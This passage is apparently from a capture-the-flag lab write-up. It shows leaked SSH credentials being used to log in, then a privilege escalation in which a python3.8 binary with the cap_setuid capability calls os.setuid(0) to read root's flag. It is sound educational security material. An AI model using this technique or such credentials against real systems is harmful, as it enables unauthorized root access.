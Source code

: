 This discloses the credentials `nathan:Buck3tH4TF0RM3!`. Use the credentials to log in to the target via SSH and get the user flag from `/home/nathan/user.txt`.

---

## Privilege Escalation

### Enumeration

List all binary capabilities.

```bash
$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` has the `cap_setuid` capabilitiy. With this capabilitiy, any `python3.8` process has the permission to set its user ID arbitrarily. If it set its user ID to 0, it would have full administrative privileges.

### Exploitation

Drop into a Python shell, set the UID to 0 and read the root flag.

```bash
$ python3.8
>>> import os
>>> os.setuid(0)
>>> with open("/root/root.txt") as f:
>>>		f.read()
```
